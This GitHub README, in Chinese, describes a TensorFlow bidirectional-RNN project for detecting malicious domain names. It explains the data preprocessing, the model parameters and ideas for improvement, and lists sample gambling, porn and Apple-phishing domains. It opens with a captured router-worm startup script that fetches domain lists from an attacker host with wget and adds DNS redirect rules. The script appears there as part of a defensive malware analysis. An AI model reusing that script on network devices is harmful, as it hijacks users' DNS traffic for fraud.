



# domain_malicious_detection
Malicious domain name detection based on tensorflow

# 路由器蠕虫触发的网络安全人工智能实战
在2017年10月11日捕获并处置针对有线电视机顶盒的蠕虫之后，我们再次捕获到针对高端通信设备的攻击蠕虫，被攻击设备通常具有用户行为管控能力（例如：NGFW、UTM、行为管理、QoS类设备）。该蠕虫采用类似Mirai的攻击手法，利用弱口令爆破进入网络设备，在设备启动脚本嵌入非法指令，下载域名资源并装载进设备进行重定向，非法牟利。典型的嵌入攻击代码如下，为避免滥用，我们对部分关键命令做了屏蔽处理。
```
#! /bin/sh
config dns rmvgrp 16
config dns rmvgrp 17
config dns rmvgrp 18
config dns rmvgrp 19
config dns addgrp 17 webwwurl
//下载并装载涉黄域名
wget http://yuanlinhome.com/kefu.txt
cp kefu.txt /kefu1.txt
wget dns loadfile 17 /kefu1.txt
rm -rf kefu.txt
rm -rf /kefu1.txt
config dns addgrp 18 webwurl
//下载并装载涉赌域名
wget http://yuanlinhome.com/bc.txt
cp bc.txt /bc1.txt
config dns loadfile 18 /bc1.txt
rm -rf bc.txt
rm -rf /bc1.txt
//重定向域名非法牟利
config dns addrule id=864 inip=any dns=18 outip=any action=reply actarg=101.102.225.211
config dns addrule id=964 inip=any dns=17 outip=any action=reply actarg=101.102.225.209
```
追踪其恶意资源网站，发现是注册解析在DNSPod，并启用了CDN服务，实际牟利的网址则位于境外。
<p align="center"></p>
<p align="center"></p>
<p align="center"></p>

启用CDN传播病毒相关资源已是常态，详情可参考天际友盟相关技术文章《CDN校验漏洞催生海量网络投毒》。这类网站的最终操纵者，还没有溯源的先例，业界办法不多。除去处置掉相关蠕虫配置，封闭可能出问题的网络设备服务之外，我们决定对该病毒所加载的病毒资源进行人工智能识别实验，并开源相关的工程和代码，以期望提高整个业界的识别水平，对病毒攻击做出最好的回击。

文章后续重点探讨人工智能在恶意域名检测中的方法，使用TensorFlow框架实现，采用监督学习的训练方法。在案例的整个流程中，涵盖了样本预处理、Tensorflow通用框架编写、双向RNN模型的搭建、词嵌入技术的应用、及后续优化和升级方案等内容。整个案例的代码在GITHUB上有公开，其中模型部分的代码以冻结图的方式提供。


# 第1部分  模型的运行
该模型使用双向RNN技术进行恶意域名检测。使用了130多万条域名样本，其中100多万是正常域名样本，30多万是恶意域名样本。混合测试集样本的识别正确率达到99%左右。纯负向样本的正确率达到96%。纯正向样本的正确率达到98%。另外在代码同步的样本中，提供了一组待测的数据及处理结果。
## 1.1  运行方法
* 	（1）将代码及所有的样本下载下来。
* 	（2）打开main.py，将第67行设置为如下:
```
mode = "pretrain"
```
直接运行。会生成样本预处理文件，及字典文件。
* 	（3）再将上面代码改成如下：
```
mode = "evalfreeze"
```
直接运行。会对数据20171213142927.xls进行域名检测处理，生成eyn.txt文件。


下面我们就来详细介绍下，背后的AI技术

# 第2部分  样本预处理

利用人工智能解决问题的项目都是先从样本入手。本小节先来分析下手里拿到的数据，并对其加工处理，生成可以使用的样本。为后面的工作做好铺垫。


## 2.1  样本介绍
在项目初期，需要先使用少量的数据，做精细化的样本处理。以便能够给模型一个正确的方向指导。它就仿佛一个学生的启蒙老师一样，要为学生明确一个是非对错的价值关，所以这部分的工作尤为重要。样本要尽可能的纯净，具有代表性。

这里先来介绍一下用于处理的第一批原始数据，它一共有4个文件：
* 	111.txt：包含正向和恶意的混合域名；
* Kefu.txt:包含涉黄域名；
* 	bc.txt:包含涉赌域名；
* domain_malicious.txt：包含其他未知的恶意域名


## 2.2  预处理工作
预处理部分主要做三种操作：正负样本分离、生成字典、样本转储。
### 2.2.1  正负样本分离
为了训练方便，在样本预处理阶段，会将111.txt中的恶意域名去除，加工成为正向的域名集合。经过预处理后，得到的样本的详细信息如下

样本种类 | 	个数 | 	所在文件
:---------------:|:---------:|:----------------:
正确域名 | 	1022296 | 	111.txt
涉黄域名 | 	236 | 	kefu.txt
涉赌域名 | 	223491 | 	bc.txt
其他未知恶意域名 | 115107 | 	domain_malicious.txt

为了将来可以对域名分析更精细化的扩展，例如开篇的图例所显示的路径，会把样本按照已有的分类放在不同的文件夹里。这样可以为不同的样本打上不同的标签，做更精细化的分类任务。

当然本次实战案例，只是需分正确的与恶意的域名，所以只会打上两种标签：0、1。对于111.txt中剔除恶意的域名之后剩下的部分统一打成0标签。其余的域名统一打成1标签。
#### 1. 读取部分代码
读取文档部分的代码在preprosample类的load_txt_sample函数中实现，是使用递归目录的方式，按照文件夹来读取到对应的list中。代码如下：
```
    def load_txt_sample(self, split='train'):
        '''递归。如果是只有一级。就直接返回。如果是有多级，【根，子目录1，子目录2。。。】
        读取txt文件，一行一行的读，传入一个目录，读取目录下的每一个文件
        '''
        print ('loading sample  dataset..')
        
        alldata = []
        for (dirpath, dirnames, filenames) in os.walk(self.sample_dir):#一级一级的文件夹递归
            print(dirpath,dirnames,filenames)
            sdata = []
            for filename in filenames:
                filename_path = os.sep.join([dirpath, filename])  
                with open(filename_path, 'rb') as f:  
                    for onedata in f: 
                        onedata = onedata.strip(b'\n') 
                        try:
                            #print(onedata.decode('gb2312'))#,onedata.decode('gb2312'))'UTF-8'
                            sdata.append(onedata.decode( 'gb2312' ).lower().replace('\r',''))
                        except (UnicodeDecodeError):
                            print("wrong:",onedata.decode)

            alldata.append(sdata)

                    
        print( len(alldata) )
        if len(alldata)>1:
            return alldata
        return sdata
```
#### 2. 分离样本代码
在preprosample类的do_only_sample函数中，使用Python的集合运算方式，实现在混合数据中剔除负样本的操作。代码如下：
```
    def do_only_sample(self, alldata):
        '''去重  【【正】【负】【负】】
        '''
        
        alldataset = set(alldata[0] ) 
        dudataset = set(alldata[1] )  
        huangdataset = set(alldata[2] )  
        otherset = set(alldata[3])
        print(len(alldataset))
        yesdataset = (alldataset-dudataset)-huangdataset
        print(len(yesdataset))
        return list(yesdataset),list(dudataset),list(huangdataset),list(otherset)
```
### 2.2.2  生成字符字典
在模型训练过程中，需要将样本都转成具体的字符向量才可以进行。所以有必要为已有的域名创建一个字符字典用于向量映射。所谓的字符字典就是将域名中出现的字符统计起来，每个不同的字符都给与一个对应的唯一编号。
经过处理后，得到的域名字符对应的字典如下：
```
['None', 'b', '.', '5', '%', '9', '7', 't', 'p', 'i', 'g', 'e', 'k', 'y', '1', '&', 'w', 'r', ')', '*', 'h', 'c', 'f', '=', ':', 'n', 'u', '4', 'a', '(', '-', 'j', '3', '?', '^', 'z', 'm', 'v', '_', 'x', 'q', '/', '8', 's', '0', 'o', 'd', '2', 'l', '6']
```
其中的第一个‘None’是额外加入的占位字符。对与字典中的位置字符可以统一被影射为None字符。这样做可以防止字典字符覆盖不全的情况。
为了将某个字符映射为向量，需要将上述的字典做个反向，即，输入某个字符获得其对应的向量值。处理后的反向字典如下：
```
{'.': 2, 'w': 16, 'f': 22, '6': 49, '1': 14, 'm': 36, 'r': 17, '3': 32, '5': 3, '_': 38, '0': 44, 'd': 46, '9': 5, '(': 29, '=': 23, '?': 33, 's': 43, 't': 7, 'c': 21, '^': 34, 'b': 1, '/': 41, '*': 19, 'z': 35, ')': 18, 'p': 8, 'g': 10, '%': 4, 'k': 12, 'l': 48, 'q': 40, 'v': 37, 'j': 31, 'x': 39, 'e': 11, 'u': 26, '7': 6, '2': 47, '8': 42, 'n': 25, 'None': 0, 'a': 28, '4': 27, 'o': 45, 'y': 13, ':': 24, 'i': 9, '&': 15, 'h': 20, '-': 30}
```
利用上述的反向字典，就可以将具体的字符转化成向量了。上面的结构是Python中字典类型的对象内容。Key就是某个具体的字符，对应value就是想要得到的向量。

### 2.2.3  保存样本
为了方便运算，希望程序在训练模型时，每次的运行只针对预处理后的结果进行训练。这样就有必要将原有预处理的结果存起来。这里会将生成的字典、与正负样本及其对应的标签存起来。使用Python中的pickle来实现该步骤的操作。

具体的做法是在preprosample类的save_sample函数中，将数据集分成两部分，一部分用于测试集、一部分用于训练集。分别存储到plk文件中。
```
    def save_sample(self,sdatasample,slabelsample,maketrain = 1):
        
        if maketrain == 1:
            lendata = int(len(slabelsample)*0.95)
        else:
            lendata = int(len(slabelsample))
        
        train = {'X': sdatasample[:lendata],
                 'y': slabelsample[:lendata]}
        
        test = {'X': sdatasample[lendata:],
                'y': slabelsample[lendata:]}
                
        if not os.path.exists(self.plk_dir):
            os.mkdir(self.plk_dir)
            
        # make directory if not exists
        if tf.gfile.Exists(self.plk_dir):
            tf.gfile.DeleteRecursively(self.plk_dir)
        tf.gfile.MakeDirs(self.plk_dir)
            
        self.save_pickle(train, self.plk_dir+'/train.pkl')
        if maketrain == 1:
            self.save_pickle(test, self.plk_dir+'/test.pkl')
```
训练集部分用于模型训练。而测试集部分用于评估模型的准确度。上面代码中对调用的保存PLK文件方法也进行了封装，具体代码如下：
   ```
   def save_pickle(self,data, path):
        with open(path, 'wb') as f:
            pickle.dump(data, f, pickle.HIGHEST_PROTOCOL)
            print ('Saved %s..' %path)
  ```
这么做的原因是可以让程序有更好的扩展性，如果想用别的方式来保存预处理结果，直接修改该接口即可。


# 第3部分  TensorFlow通用框架的编写

在TensorFlow1.3版本之后，提出了一个估算器框架的概念。使得开发者可以在完成深度学习程序搭建的过程中，不必要太关心各个环节的组织连接工作。大大提升了开发效率。但是由于封装得过于到位，对于初学者来讲并不透明。为了案例演示，这里使用了非估算器结构框架，手动搭建通用处理框架来将各个环节组织起来。
## 3.1  框架基本代码结构
组成通用框架的基本代码结构，共分为4个文件，具体如下： 
* main.py：为程序的总体入口；
* model.py:为程序的模型文件；
* prepro.py:为程序的预处理文件；
* work.py：为程序的流程文件
除了main文件，其他文件都是以类的形式存在，每一个类实现几个具体的独立功能，例如model单独存放模型文件，也可以在其内部实现多种模型，进行训练比较；prepro负责在main执行前进行数据的预处理工作，将原始数据存储成具体的可使用样本；work则是具体的流程处理操作，根据main下达的训练、评估、应用指令，来调用模型，同时载入对应的预处理后的数据，完成整体的任务。

## 3.2  预处理类preprosample
该类可以当作工具类来使用，预处理部分主要做两种操作，里面的方法有：
* load_cvs_evaldata：从csv文件读取数据；
* load_txt_sample：递归读取txt文件的样本；
* do_only_sample：样本去重；
* make_dictionary：生成字典；
* ch_to_v：字符转向量；
* pad_sequences：样本对齐的pad操作；
* load_dic：加载字典；
* save_sample保存样本。
## 3.3  流程处理Work类  
主要是针对专项流程方面的处理（比如训练、测试、应用等），和一些基础操作（载入样本）：
* load_pkl_sample：载入样本；
* evalfreeze：应用模型；
* train：训练模型；
* test：测试模型。
## 3.4  模型结构DomainNameModel类  
该主要是类放置的训练模型的网络结构定义。函数build_model用来实现网络结构的具体定义。可以通过输入不同的参数返回不同的节点。代码中给出了freeze参数的实现：将模型文件载入到内存中，返回给work。可以在work进行模型应用的具体计算。


# 第4部分  模型搭建

模型搭建的部分，是在动态双向RNN基础上使用了词嵌入技术，即将每个字符向量转成64维度的词嵌入向量作为输入，然后通过双向RNN进行基于域名的正反向特征提取，最后通过2层全连接网络来完成的。整体结构如下图所示：
 <p align="center"></p>


## 4.1  相关模型参数细节
如上图所示，按照从下至上，一次介绍相关模型及参数的细节如下：
* 原始域名字符映射字典的长度为50；
* 	映射后的向量，经过嵌入词转换的维度为64；
* 在双向RNN中，使用了变长序列的处理方式，支持最大序列长度为256；
* 双向RNN的前向与后向采用同样的结构，一个两层的RNN网络，每层RNN由64个GRU单元组成；
* 	双向RNN的结果输入到一个16节点组成的全连接网络。
* 然后，在进入一个2节点组成的全连接网络。
* 对模型出来的结果进行softmax变换，并且与标签进行交叉熵运算，得出loss值。
* 反向传播使用AdamOptimizer优化器。
* 学习率为0.0008。
* 训练时采用随机最小批次方式进行样本输入。批次的最大值为1024。

## 4.2  需要注意的技术细节
模型部分的代码是以冻结图方式提供的。如果自己需要进行编写及优化，可以参考下面的关键技术部分源码：
### 4.2.1  变长双向RNN的实现
在《深度学习之TensorFlow入门、原理与进阶实战》一书的9.4.2中的第4小节，介绍过变长动态RNN的实现。该方法与变长双向RNN的实现非常类似。只需要将输入批次样本中对应的长度列表一起放入双向RNN初始化函数里即可。
### 4.2.2  双向RNN接全连接网络的实现
该部分可以参考《深度学习之TensorFlow入门、原理与进阶实战》一书的9.5语音识别例子中的模型部分。该模型也是使用用了双向RNN并结合全连接网络进行音字翻译的。关于具体的使用及注意事项可以参考链接：
http://blog.csdn.net/lijin6249/article/details/78955175
### 4.2.3  多层RNN的实现
本案例与《深度学习之TensorFlow入门、原理与进阶实战》一书的语音识别例子唯独不同的是，在语音识别的例子中使用的是单层RNN网络。如果需要实现多层可以参考9.4部分的多成RNN例子。
## 4.3  调优的误区  
可以注意到上面公布的参数中，每一层的节点都不是很多。大家都知道，节点个数越多，会提高模型越强的拟合能力。但是在实际应用中，会发现越高的节点个数会使模型在拥有更高的拟合能力基础上同样带有更低的泛化能力。其表现的现象就是在使用对抗样本训练时，会使模型抖动的厉害。所以在调优过程中，千万不要一味的盲目加大节点。


# 第5部分  后续的优化及升级方案
本案例仅仅是个抛砖引玉的作用，当然还有很多可以优化的地方。
## 5.1  基于现有精度的优化
在词嵌入部分本案例使用的是随机初始值，这里完全可以通过载入预训练好的词向量模型，让现有模型获取更为准确的语义特征。具体做法是使用CBOW或skip-gram模型，对现有域名的字符间关系进行分析。基于分析后的语义在进行词嵌入的映射，会比原有模型的效果更好。
## 5.2  基于模型结构的优化
该应用还可以是使用半监督式训练方法进行模型的训练，生成式对抗神经网络应当是首选。由于应对与仿照正规网站的欺骗类型恶意域名，因为它符合正样本唯一，负样本随机的特征。生成式对抗神经网络具有强大的样本特征拟合功能，可以使我们得到更为精确的判别器网络。但是其训练的关节相对复杂，比其他网络更难于训练，这是目前的困难所在，也是后续的研究方向。

## 5.3  基于案例应用的优化
对于恶意域名检测案例的应用来讲，这只是个开端，距离商用还有很多细分工作要做。因为恶意域名的形式远不止文章中提到的黄、赌之类的类型。若想将域名识别的更为精确必须要将域名按照细分类别单独处理才是。
例如：像下列这种赌博的恶意域名，特征就比较明显。单纯从域名字符形态上就可以进行区分。若使用AI技术单独用于该类识别，准确率就会非常的高。
```
0000002.com
000000cf.com
000000.com
0000036.com
00000378.com
00000.am
00000hg.com
00000hm.com
00000jsc.com
00000k9.com
00000msc.com
00000s8s.com
00000tb.com
00000vn.com
```
而对于下面这种具有一定语义的涉黄域名，则需要模型对其语义进行理解和区分。使用具有理解语义的模型对其专门训练即可得到很好的效果。
```
chat.l8servicedreamofcity.com
happypussygames.com
chat.l8serviceqy8.com
chat.l8serviceuqu.com
badasianpussy.com
livechat-d88.com
livechatinc.com
```
如果将上面两种情况放在一起区分，就是本篇文章的模型。但是它缺少通用性，例如对于欺骗类的域名，假冒仿真网站的域名识别就是该模型无法胜任的事情。
```
apple-info.net
apple-inportant.com
apple-itunes.serverhost.com
apple-login-account.ga
apple-mac911.onlinesoftwaresollutionhelpdesk.info
apple.g2live.net
apple-refund-id38303910.cf
apple-refund-id38303911.cf
apple-refund-id389401310.cf
```
上面列出的都是恶意域名。是仿照苹果官网的网站做的钓鱼网站域名。正常的域名如下：
```
Apple.com
Itunes.com
```
模型在处理这个问题时，就会出现抖动。因为模型虽然能够学到里面的语义，但也无法判断其为恶意还是正常。类似这种情况的欺骗网站，还有很多，比如仿照各大银行的网站、金融交易网站等。对于这类问题就不能与前面的一般恶意域名检测问题放在一起处理。必须得分开，进行单独的样本收集，训练。可以使用传统的黑白名单方式、也可以升级现有的网络模型，使其适应更多样变化的特征，例如使用对抗网络模型等。

# 参考：

* 1.	本案例代码与资源下载网址：https://github.com/jinhong0427/domain_malicious_detection
* 2.	CDN校验漏洞催生海量网络投毒： http://www.freebuf.com/news/139358.html
* 3.	变长双向RNN的正确使用姿势： http://blog.csdn.net/lijin6249/article/details/78955175
* 4.	IP地址溯源：https://www.ipip.net/
* 5.	天际友盟威胁情报平台：https://redqueen.sec-un.com/


致谢：
    感谢派网软件提供安全方向技术支持。
    
* 1.	CNCERT
* 2.	烽火台安全威胁情报联盟

<p align="center"></p>
<p align="center"></p>
